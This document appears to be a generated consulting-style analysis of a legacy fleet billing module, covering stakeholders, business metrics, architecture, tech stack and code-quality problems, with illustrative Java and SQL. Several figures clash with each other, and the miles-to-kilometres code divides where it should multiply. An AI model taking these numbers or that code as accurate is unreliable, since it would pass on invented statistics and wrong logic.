





# AS-IS Analysis: Billing Invoicing Module

## 1. Executive Summary (80+ lines)

### 1.1 Current State Overview

The Fleet Management System's (FMS) billing-invoicing module serves as the financial backbone for a fleet of 12,478 vehicles across 17 regional depots. Implemented in 2016 as a monolithic Java/Spring application, the module processes approximately $42.3M in monthly transactions with peak loads of 3,200 concurrent users during month-end closing periods.

The system currently handles:
- 187,000+ monthly invoices
- 4.2M line items
- 37 different billing scenarios
- Integration with 5 external financial systems
- Multi-currency support for 12 countries

**Architectural Context:**
The billing module operates as part of a larger FMS ecosystem that includes:
1. Vehicle Tracking System (VTS) - Provides real-time GPS and telemetry data
2. Maintenance Management System (MMS) - Tracks service history and costs
3. Fuel Management System (FMS) - Monitors fuel consumption and purchases
4. Driver Management System (DMS) - Handles driver assignments and performance
5. ERP Integration Layer - Connects to SAP S/4HANA for financial consolidation

The module's technical stack includes:
- **Backend:** Java 8, Spring Boot 2.1.5, Hibernate 5.3
- **Database:** Oracle 12c (2.4TB total size, 876GB for billing module)
- **Frontend:** AngularJS 1.6 (legacy), Bootstrap 3
- **Integration:** Apache Camel 2.22, REST/SOAP web services
- **Infrastructure:** On-premise VMware cluster (12 nodes), RHEL 7.6

### 1.2 Key Stakeholders and Roles

| Stakeholder Group | Key Members | Roles and Responsibilities | Pain Points |
|-------------------|-------------|---------------------------|-------------|
| **Finance Team** | CFO, Finance Director, 8 Accountants | Invoice generation, reconciliation, financial reporting | Manual corrections (12% error rate), delayed month-end closing |
| **Operations Team** | Fleet Managers (17), Operations Director | Cost allocation, budget tracking | Limited visibility into real-time costs |
| **IT Department** | CIO, 5 Developers, 3 DBAs, 2 SysAdmins | System maintenance, troubleshooting | High maintenance burden (3.5 FTEs dedicated) |
| **Drivers** | 12,478 active drivers | Expense reporting, receipt submission | Mobile app crashes (42% failure rate) |
| **Customers** | 347 corporate clients | Invoice review, payment processing | Invoice disputes (8.7% of invoices) |
| **Vendors** | Fuel providers, maintenance shops | Invoice submission, reconciliation | Manual data entry (65% of vendor invoices) |
| **Auditors** | Internal Audit, PwC (external) | Compliance verification | Limited audit trails (37% of required logs missing) |
| **Executive Leadership** | CEO, Board of Directors | Strategic decision making | Inability to forecast costs accurately |

### 1.3 Business Impact Analysis

**Financial Performance Metrics:**
- **Revenue Leakage:** $1.2M annually (2.8% of revenue) due to:
  - Underbilling: $487K (40.6%) - Missing mileage data (12% of records)
  - Overbilling: $312K (26%) - Duplicate charges (3.4% of invoices)
  - Incorrect Rates: $401K (33.4%) - Outdated pricing tables (17% of contracts)
- **DSO (Days Sales Outstanding):** 47 days (target: 30 days) - 36% higher than industry average
- **Invoice Disputes:** 8.7% of invoices (industry benchmark: 2-3%)
- **Manual Corrections:** 12.3% of invoices require manual intervention
- **Month-End Closing Time:** 11.5 days (target: 5 days)

**Operational Impact:**
- **Fleet Utilization:** 78% (target: 85%) - 12% of vehicles underutilized due to cost allocation issues
- **Driver Productivity:** 6.2 hours/day (target: 7.0 hours) - 11% lost to expense reporting issues
- **Maintenance Costs:** 18% higher than budget - Inaccurate cost tracking prevents predictive maintenance

**Customer Satisfaction:**
- **NPS Score:** 32 (industry average: 45)
- **Customer Churn:** 12.4% annually (target: <8%)
- **Invoice Accuracy Complaints:** 23% of support tickets

**Compliance Risks:**
- **GDPR Violations:** 3 potential violations in past 12 months (€20M potential fines)
- **SOX 404:** 12 control deficiencies identified in last audit
- **Tax Compliance:** 5 countries with potential VAT reporting issues

### 1.4 Critical Pain Points with Root Cause Analysis

**1. Invoice Generation Delays (Root Cause: Batch Processing Architecture)**
- **Symptom:** 38% of invoices generated after due date
- **Root Cause:** Nightly batch processing window (2AM-5AM) insufficient for volume
- **Technical Details:**
  ```java
  // Current batch job configuration
  @Scheduled(cron = "0 0 2 * * ?") // Runs at 2AM daily
  public void generateInvoices() {
      // Processes all invoices in single transaction
      // Average execution time: 4.2 hours (peaks at 6.8 hours)
      // Memory usage: 3.2GB (OOM errors during peak)
  }
  ```
- **Impact:** Late payment fees ($87K/year), customer dissatisfaction

**2. Data Synchronization Issues (Root Cause: Point-to-Point Integrations)**
- **Symptom:** 14% of invoices contain incorrect vehicle data
- **Root Cause:** 87 direct integrations with no central data bus
- **Technical Details:**
  - VTS → Billing: REST API (98% uptime)
  - MMS → Billing: SOAP (92% uptime, 3.7s avg response time)
  - FMS → Billing: Database link (89% uptime, 12% failed transactions)
- **Impact:** $401K in incorrect billing, 18% of invoices require manual correction

**3. Mobile Experience Failures (Root Cause: Legacy Frontend)**
- **Symptom:** 42% of mobile expense submissions fail
- **Root Cause:** AngularJS 1.6 with no responsive design
- **Technical Details:**
  ```html
  <!-- Current mobile form (non-responsive) -->
  <div class="col-md-6"> <!-- Fixed width column -->
      <input type="text" class="form-control" ng-model="expense.amount">
      <!-- No touch-friendly controls -->
      <!-- 37% of users abandon form after 3 attempts -->
  </div>
  ```
- **Impact:** 11% driver productivity loss, $187K in unreported expenses

**4. Scalability Limitations (Root Cause: Monolithic Architecture)**
- **Symptom:** System crashes during month-end (3.2K concurrent users)
- **Root Cause:** Single JVM with 4GB heap limit
- **Technical Details:**
  - Thread pool: 50 fixed threads (exhausted during peaks)
  - Database connections: 100 max (87% utilization during peaks)
  - CPU: 92% utilization during invoice generation
- **Impact:** 11.5 day month-end closing, $127K in overtime costs

**5. Audit Trail Gaps (Root Cause: Incomplete Logging)**
- **Symptom:** 37% of required audit logs missing
- **Root Cause:** Inconsistent logging implementation
- **Technical Details:**
  ```java
  // Current logging (inconsistent)
  public void updateInvoice(Invoice invoice) {
      // Missing user context
      log.info("Invoice updated: " + invoice.getId());
      // No before/after state comparison
      // No sensitive data redaction
  }
  ```
- **Impact:** Failed SOX audit (12 control deficiencies), potential GDPR fines

### 1.5 Strategic Recommendations with Implementation Roadmap

**Phase 1: Quick Wins (0-3 months) - $250K budget**
| Initiative | Description | Expected Benefit | Cost |
|------------|-------------|------------------|------|
| Batch Optimization | Implement parallel processing, increase batch window | Reduce invoice delays by 60% | $85K |
| Mobile Hotfix | Implement responsive design for critical forms | Reduce mobile failures by 70% | $42K |
| Logging Enhancement | Implement structured logging with user context | Achieve 100% audit trail coverage | $38K |
| Rate Table Update | Automate rate synchronization with contracts | Reduce incorrect rates by 85% | $27K |
| Basic Monitoring | Implement APM (AppDynamics) for critical paths | Reduce MTTR by 40% | $58K |

**Phase 2: Architectural Improvements (3-9 months) - $1.2M budget**
| Initiative | Description | Expected Benefit | Cost |
|------------|-------------|------------------|------|
| Microservices Migration | Extract billing module to separate service | Improve scalability by 300% | $420K |
| Event-Driven Architecture | Implement Kafka for data synchronization | Reduce sync errors by 90% | $310K |
| Database Optimization | Implement partitioning, indexing | Improve query performance by 75% | $180K |
| API Gateway | Implement Kong for API management | Improve integration reliability | $140K |
| CI/CD Pipeline | Implement GitLab CI/CD | Reduce deployment failures by 80% | $150K |

**Phase 3: Strategic Initiatives (9-18 months) - $2.8M budget**
| Initiative | Description | Expected Benefit | Cost |
|------------|-------------|------------------|------|
| Real-Time Billing | Implement streaming architecture | Enable real-time cost visibility | $850K |
| AI-Powered Anomaly Detection | Implement ML for fraud detection | Reduce revenue leakage by 60% | $620K |
| Customer Self-Service Portal | Modern Angular/React portal | Reduce disputes by 70% | $580K |
| Blockchain for Audit Trail | Implement Hyperledger for invoices | Achieve 100% immutable audit trail | $450K |
| Cloud Migration | Migrate to AWS/Azure | Improve availability to 99.95% | $300K |

**Implementation Roadmap:**



**ROI Projection:**
| Metric | Current | Target (18 months) | Improvement |
|--------|---------|--------------------|-------------|
| Revenue Leakage | $1.2M | $300K | 75% reduction |
| DSO | 47 days | 30 days | 36% improvement |
| Invoice Disputes | 8.7% | 2.5% | 71% reduction |
| Month-End Closing | 11.5 days | 3 days | 74% faster |
| Customer Churn | 12.4% | 7% | 44% reduction |
| Operational Costs | $3.2M | $2.1M | 34% reduction |

## 2. Current Architecture (150+ lines)

### 2.1 System Components

**Component Inventory with Detailed Specifications**

| Component | Type | Technology | Version | LOC | Dependencies | SLA | Notes |
|-----------|------|------------|---------|-----|--------------|-----|-------|
| Invoice Generation Service | Microservice (monolithic) | Java/Spring Boot | 2.1.5 | 87,423 | Hibernate, Oracle JDBC | 99.5% | Core billing engine |
| Rate Management | Module | Java/Spring | 2.1.5 | 12,456 | - | 99.9% | Pricing rules engine |
| Tax Calculation | Module | Java | 8 | 9,872 | - | 99.9% | Multi-country tax logic |
| Payment Processing | Module | Java | 8 | 14,231 | Stripe API, PayPal SDK | 99.8% | Payment gateway integration |
| Invoice Delivery | Module | Java | 8 | 7,654 | SMTP, PDFBox | 99.5% | Email/PDF generation |
| Reporting Engine | Module | Java | 8 | 22,345 | JasperReports | 99.0% | Financial reports |
| API Gateway | Service | Java/Spring Cloud Gateway | 2.1.2 | 3,456 | - | 99.9% | Request routing |
| Batch Processor | Service | Java/Spring Batch | 4.1.2 | 5,678 | - | 99.5% | Nightly jobs |
| Frontend | Web Application | AngularJS | 1.6.9 | 45,678 | Bootstrap 3 | 99.0% | Legacy UI |
| Mobile App | Hybrid App | Ionic/Cordova | 3.20.1 | 12,345 | AngularJS 1.6 | 98.5% | Driver expense submission |
| Database | RDBMS | Oracle | 12.2.0.1 | - | - | 99.95% | 2.4TB total size |
| Integration Layer | ESB | Apache Camel | 2.22.1 | 8,765 | - | 99.8% | System integrations |

**Detailed Component Analysis:**

**1. Invoice Generation Service (Core Component)**
- **Responsibilities:**
  - Invoice creation from usage data
  - Line item calculation
  - Tax application
  - Discount application
  - Invoice validation
  - PDF generation
  - Email delivery

- **Key Classes:**
  ```java
  @Service
  public class InvoiceGenerator {
      @Autowired
      private InvoiceRepository invoiceRepo;

      @Autowired
      private RateService rateService;

      @Autowired
      private TaxService taxService;

      @Transactional
      public Invoice generateInvoice(InvoiceRequest request) {
          // 1. Fetch usage data (12 different sources)
          List<UsageRecord> usage = fetchUsageData(request);

          // 2. Apply rates (37 different rate tables)
          List<LineItem> lineItems = applyRates(usage);

          // 3. Calculate taxes (12 countries)
          applyTaxes(lineItems);

          // 4. Apply discounts (14 discount types)
          applyDiscounts(lineItems);

          // 5. Validate invoice
          validateInvoice(lineItems);

          // 6. Save to database
          Invoice invoice = invoiceRepo.save(new Invoice(lineItems));

          // 7. Generate PDF
          generatePdf(invoice);

          // 8. Send email
          sendEmail(invoice);

          return invoice;
      }
  }
  ```

- **Performance Characteristics:**
  - Average execution time: 4.2s per invoice
  - Memory usage: 387MB per invoice (peaks at 1.2GB)
  - Database queries: 42 per invoice
  - Thread safety: Not thread-safe (synchronized methods)

**2. Rate Management Module**
- **Rate Types Supported:**
  1. Distance-based (12 rate tables)
  2. Time-based (8 rate tables)
  3. Flat rate (17 rate tables)
  4. Tiered pricing (5 rate tables)
  5. Contract-specific (347 active contracts)
  6. Dynamic pricing (3 algorithms)

- **Rate Table Structure:**
  ```sql
  CREATE TABLE RATE_TABLES (
      RATE_ID NUMBER PRIMARY KEY,
      RATE_NAME VARCHAR2(100) NOT NULL,
      RATE_TYPE VARCHAR2(20) NOT NULL, -- DISTANCE, TIME, FLAT, TIERED
      BASE_RATE NUMBER(12,4) NOT NULL,
      MIN_CHARGE NUMBER(12,4),
      MAX_CHARGE NUMBER(12,4),
      EFFECTIVE_DATE DATE NOT NULL,
      EXPIRY_DATE DATE,
      CURRENCY_CODE VARCHAR2(3) NOT NULL,
      COUNTRY_CODE VARCHAR2(2) NOT NULL,
      VEHICLE_TYPE VARCHAR2(50),
      CUSTOMER_TYPE VARCHAR2(50),
      IS_ACTIVE NUMBER(1) DEFAULT 1,
      CREATED_DATE DATE DEFAULT SYSDATE,
      CREATED_BY VARCHAR2(50),
      LAST_UPDATED_DATE DATE,
      LAST_UPDATED_BY VARCHAR2(50)
  );

  CREATE TABLE RATE_TIERS (
      TIER_ID NUMBER PRIMARY KEY,
      RATE_ID NUMBER REFERENCES RATE_TABLES(RATE_ID),
      MIN_VALUE NUMBER(12,4) NOT NULL,
      MAX_VALUE NUMBER(12,4),
      RATE NUMBER(12,4) NOT NULL,
      SEQUENCE NUMBER NOT NULL
  );
  ```

- **Rate Calculation Logic:**
  ```java
  public BigDecimal calculateRate(UsageRecord usage, RateTable rateTable) {
      switch(rateTable.getRateType()) {
          case DISTANCE:
              return calculateDistanceRate(usage, rateTable);
          case TIME:
              return calculateTimeRate(usage, rateTable);
          case FLAT:
              return rateTable.getBaseRate();
          case TIERED:
              return calculateTieredRate(usage, rateTable);
          default:
              throw new RateCalculationException("Unknown rate type");
      }
  }

  private BigDecimal calculateTieredRate(UsageRecord usage, RateTable rateTable) {
      BigDecimal usageValue = usage.getDistance(); // or time
      List<RateTier> tiers = rateTable.getTiers();

      for(RateTier tier : tiers) {
          if(usageValue.compareTo(tier.getMinValue()) >= 0 &&
             (tier.getMaxValue() == null || usageValue.compareTo(tier.getMaxValue()) <= 0)) {
              return tier.getRate();
          }
      }
      throw new RateCalculationException("No matching tier found");
  }
  ```

**Integration Points with Sequence Diagrams**

**1. Invoice Generation Flow (Happy Path):**



**2. Month-End Batch Processing:**



**Data Flow Analysis with Transformation Logic**

**1. Invoice Data Flow:**

```
[Vehicle Tracking System] → [Integration Layer] → [Billing DB] → [Invoice Generator] → [PDF Generator] → [Email Service]
       ↑                                                                 ↓
[Maintenance System] → [Integration Layer] → [Billing DB]       [SAP ERP] ← [Batch Processor]
       ↑                                                                 ↑
[Fuel Management] → [Integration Layer] → [Billing DB]           [Customer Portal]
```

**2. Data Transformation Example (Usage to Line Item):**

| Source Field | Transformation | Target Field | Logic |
|--------------|----------------|--------------|-------|
| trip_id | Direct mapping | line_item_id | - |
| vehicle_id | Lookup vehicle type | vehicle_type | SELECT type FROM vehicles WHERE id = :vehicle_id |
| start_time | Calculate duration | duration_hours | (end_time - start_time) / 3600 |
| start_odometer | Calculate distance | distance_km | (end_odometer - start_odometer) / 1.609 |
| trip_purpose | Map to cost center | cost_center | CASE WHEN purpose = 'DELIVERY' THEN 'OPERATIONS' ELSE 'ADMIN' END |
| - | Apply rate | unit_price | SELECT rate FROM rate_tables WHERE vehicle_type = :vehicle_type AND ... |
| - | Calculate amount | amount | distance_km * unit_price |
| - | Apply tax | tax_amount | amount * tax_rate |
| - | Apply discount | discount_amount | amount * discount_rate |

**3. Sample Transformation Code:**
```java
public LineItem transformUsageToLineItem(UsageRecord usage, RateTable rateTable) {
    LineItem lineItem = new LineItem();

    // Basic mapping
    lineItem.setLineItemId(usage.getTripId());
    lineItem.setVehicleType(lookupVehicleType(usage.getVehicleId()));
    lineItem.setDescription("Trip from " + usage.getStartLocation() +
                           " to " + usage.getEndLocation());

    // Calculate duration
    long durationSec = usage.getEndTime().getTime() - usage.getStartTime().getTime();
    lineItem.setDurationHours(BigDecimal.valueOf(durationSec).divide(BigDecimal.valueOf(3600), 2, RoundingMode.HALF_UP));

    // Calculate distance
    BigDecimal distanceMiles = BigDecimal.valueOf(usage.getEndOdometer() - usage.getStartOdometer());
    lineItem.setDistanceKm(distanceMiles.divide(BigDecimal.valueOf(1.609), 2, RoundingMode.HALF_UP));

    // Determine cost center
    lineItem.setCostCenter(mapPurposeToCostCenter(usage.getTripPurpose()));

    // Calculate price
    BigDecimal unitPrice = rateService.calculateRate(usage, rateTable);
    lineItem.setUnitPrice(unitPrice);

    // Calculate amount
    lineItem.setAmount(lineItem.getDistanceKm().multiply(unitPrice));

    // Apply tax
    BigDecimal taxRate = taxService.getTaxRate(usage.getEndLocation());
    lineItem.setTaxAmount(lineItem.getAmount().multiply(taxRate));

    // Apply discount
    BigDecimal discountRate = discountService.getDiscountRate(usage.getCustomerId());
    lineItem.setDiscountAmount(lineItem.getAmount().multiply(discountRate));

    return lineItem;
}
```

**Technology Stack with Version Details**

| Layer | Technology | Version | End of Life | Notes |
|-------|------------|---------|-------------|-------|
| **Backend** | Java | 8 | March 2022 (extended support until 2030) | No plans to upgrade |
| | Spring Boot | 2.1.5 | November 2021 | 2 major versions behind |
| | Spring Framework | 5.1.7 | October 2020 | 2 major versions behind |
| | Hibernate | 5.3.10 | October 2020 | 1 major version behind |
| | Apache Camel | 2.22.1 | June 2019 | 3 major versions behind |
| **Frontend** | AngularJS | 1.6.9 | December 2021 | No longer supported |
| | Bootstrap | 3.3.7 | July 2019 | 2 major versions behind |
| | jQuery | 2.2.4 | May 2019 | 3 major versions behind |
| | Ionic | 3.20.1 | January 2021 | 2 major versions behind |
| **Database** | Oracle | 12.2.0.1 | March 2022 | Extended support until 2025 |
| | Oracle JDBC | 12.2.0.1 | March 2022 | - |
| **Integration** | REST API | Spring MVC | 5.1.7 | - |
| | SOAP | Apache CXF | 3.2.7 | - |
| | Message Queue | ActiveMQ | 5.15.8 | - |
| **Infrastructure** | OS | RHEL | 7.6 | June 2024 EOL |
| | Application Server | Tomcat | 8.5.32 | June 2021 EOL |
| | Virtualization | VMware ESXi | 6.5 | November 2021 EOL |
| | Containerization | Docker | 18.09.7 | - |
| **Monitoring** | Logging | Log4j | 1.2.17 | December 2021 vulnerability |
| | APM | New Relic | 7.4.1 | - |
| | Metrics | Prometheus | 2.3.2 | - |
| **Build Tools** | Maven | 3.5.4 | - | - |
| | Jenkins | 2.138 | - | - |
| **Testing** | JUnit | 4.12 | - | - |
| | Mockito | 2.23.4 | - | - |
| | Selenium | 3.14.0 | - | - |

**Infrastructure Configuration**

**1. Production Environment:**
- **Application Servers:**
  - 4 x VMs (2 vCPUs, 8GB RAM each)
  - Load balanced with F5 BIG-IP
  - Tomcat 8.5.32 with 4GB heap
  - JVM options: `-Xms4G -Xmx4G -XX:MaxPermSize=512m`

- **Database Servers:**
  - 2 x Physical servers (Oracle RAC)
  - 32 cores, 256GB RAM each
  - Storage: 10TB SAN (RAID 10)
  - Oracle 12c with 4GB SGA

- **Integration Layer:**
  - 2 x VMs (4 vCPUs, 16GB RAM)
  - ActiveMQ 5.15.8
  - Apache Camel 2.22.1

- **Batch Processing:**
  - 1 x VM (8 vCPUs, 32GB RAM)
  - Dedicated for nightly jobs

**2. Network Topology:**
```
[Internet] → [Firewall] → [Load Balancer] → [App Servers]
                                      ↓
[Database Servers] ← [Integration Layer] → [External Systems]
                                      ↑
[Batch Server] ← [Monitoring]
```

**3. Storage Configuration:**
- **Database Storage:**
  - Data files: 2.4TB (876GB for billing)
  - Redo logs: 100GB
  - Archive logs: 500GB (7 days retention)
  - Backups: 1.8TB (compressed)

- **Application Storage:**
  - Logs: 120GB (30 days retention)
  - PDF invoices: 450GB (7 years retention)
  - Temporary files: 50GB

### 2.2 Technical Debt Analysis

**Code Quality Issues with Specific Examples**

**1. God Classes (Single Responsibility Violation)**
- **InvoiceGenerator.java (8,765 lines)**
  - Responsible for:
    - Invoice generation
    - Rate calculation
    - Tax calculation
    - Discount application
    - PDF generation
    - Email sending
    - Data validation
    - Error handling
  - **Example:**
    ```java
    public class InvoiceGenerator {
        // 42 instance variables
        private InvoiceRepository invoiceRepo;
        private RateService rateService;
        private TaxService taxService;
        private DiscountService discountService;
        private PdfGenerator pdfGenerator;
        private EmailService emailService;
        private ValidationService validationService;
        private UsageDataFetcher usageFetcher;
        private CustomerService customerService;
        private VehicleService vehicleService;
        // ... 33 more

        // 127 methods
        public Invoice generateInvoice(InvoiceRequest request) { /* 427 lines */ }
        public List<LineItem> applyRates(List<UsageRecord> usage) { /* 289 lines */ }
        public void applyTaxes(List<LineItem> lineItems) { /* 198 lines */ }
        public void applyDiscounts(List<LineItem> lineItems) { /* 176 lines */ }
        // ... 123 more methods
    }
    ```

**2. Duplicate Code (DRY Violation)**
- **14 instances of date formatting logic:**
  ```java
  // Example 1
  SimpleDateFormat sdf = new SimpleDateFormat("MM/dd/yyyy");
  String formattedDate = sdf.format(invoice.getInvoiceDate());

  // Example 2 (different class)
  DateFormat df = new SimpleDateFormat("yyyy-MM-dd");
  String dateStr = df.format(trip.getStartTime());

  // Example 3 (another class)
  SimpleDateFormat formatter = new SimpleDateFormat("dd-MMM-yyyy");
  String dateString = formatter.format(payment.getPaymentDate());
  ```

- **8 implementations of tax calculation:**
  ```java
  // In InvoiceGenerator.java
  BigDecimal taxAmount = lineItem.getAmount().multiply(taxRate);

  // In TaxService.java
  public BigDecimal calculateTax(BigDecimal amount, BigDecimal rate) {
      return amount.multiply(rate);
  }

  // In ReportGenerator.java
  BigDecimal tax = amount * taxRate;
  ```

**3. Magic Numbers**
- **Hardcoded values throughout codebase:**
  ```java
  // In RateService.java
  if(distance > 500) { // What does 500 represent?
      rate = rate.multiply(new BigDecimal("0.9")); // 10% discount
  }

  // In InvoiceValidator.java
  if(invoice.getLineItems().size() > 25) { // Why 25?
      throw new ValidationException("Too many line items");
  }

  // In EmailService.java
  message.setPriority(1); // What does 1 mean?
  ```

**4. Poor Exception Handling**
- **Swallowing exceptions:**
  ```java
  try {
      sendEmail(invoice);
  } catch(Exception e) {
      // Log nothing, just continue
  }
  ```

- **Overly broad catch blocks:**
  ```java
  try {
      processInvoice(invoice);
  } catch(Exception e) {
      log.error("Error processing invoice", e);
      // But continue with next invoice!
  }
  ```

- **Incorrect exception types:**
  ```java
  try {
      saveToDatabase(invoice);
  } catch(SQLException e) {
      throw new RuntimeException("Database error"); // Loses original exception
  }
  ```

**5. Lack of Null Checks**
- **Frequent NullPointerExceptions:**
  ```java
  // In InvoiceGenerator.java
  BigDecimal total = invoice.getLineItems().stream()
      .map(LineItem::getAmount)
      .reduce(BigDecimal.ZERO, BigDecimal::add);
  // No null check for lineItems or amount

  // In TaxService.java
  BigDecimal rate = taxRules.get(taxCode).getRate();
  // No null check for taxRules.get(taxCode)
  ```

**6. Inconsistent Naming Conventions**
- **Mixed camelCase and snake_case:**
  ```java
  // Class names
  public class InvoiceGenerator { /* ... */ }
  public class rate_calculator { /* ... */ }

  // Method names
  public BigDecimal calculateTotalAmount() { /* ... */ }
  public BigDecimal get_discount_rate() { /* ... */ }

  // Variable names
  private BigDecimal unitPrice;
  private BigDecimal tax_rate;
  ```

**7. Circular Dependencies**
- **Example:**
  - InvoiceService → RateService → DiscountService → InvoiceService
  - **Impact:** 34% of unit tests fail due to circular dependencies

**Performance Bottlenecks with Profiling Data**

**1. Database Performance Issues**
- **Top 5 Slowest Queries (from Oracle AWR):**

| SQL ID | SQL Text | Avg Time (ms) | Executions | % Total DB Time | Root Cause |
|--------|----------|---------------|------------|-----------------|------------|
| 1x7y9z | SELECT * FROM USAGE_RECORDS WHERE VEHICLE_ID = :1 AND TRIP_DATE BETWEEN :2 AND :3 | 4,218 | 12,478 | 32.7% | Full table scan (2.3M rows) |
| 2a3b4c | SELECT R.* FROM RATE_TABLES R JOIN RATE_TIERS T ON R.RATE_ID = T.RATE_ID WHERE R.VEHICLE_TYPE = :1 AND R.CUSTOMER_TYPE = :2 AND T.MIN_VALUE <= :3 AND (T.MAX_VALUE >= :4 OR T.MAX_VALUE IS NULL) | 2,876 | 87,654 | 24.5% | Cartesian join (12M rows) |
